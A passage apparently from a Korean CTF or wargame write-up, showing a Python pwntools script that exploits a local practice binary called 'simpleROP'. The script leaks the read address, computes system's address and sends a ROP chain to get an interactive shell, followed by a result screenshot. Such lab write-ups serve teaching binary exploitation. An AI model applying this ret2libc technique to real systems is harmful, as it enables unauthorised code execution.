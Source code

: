 ```python
 
#Run
r = process("./simpleROP")
r.recvn(0x13)
r.send(payload + '\n')
r.send(binsh)
r.recvn(0x119-0x4)
read = u32(r.recvn(4))
system_addr = read - read_system_offset
rop = ROP(binary)
rop.raw(system_addr)
r.send(str(rop))
 
r.interactive()
```

결과

![image](https://user-images.githubusercontent.com/59410565/119164408-5d1de380-ba97-11eb-8abe-f374c840d2d8.png)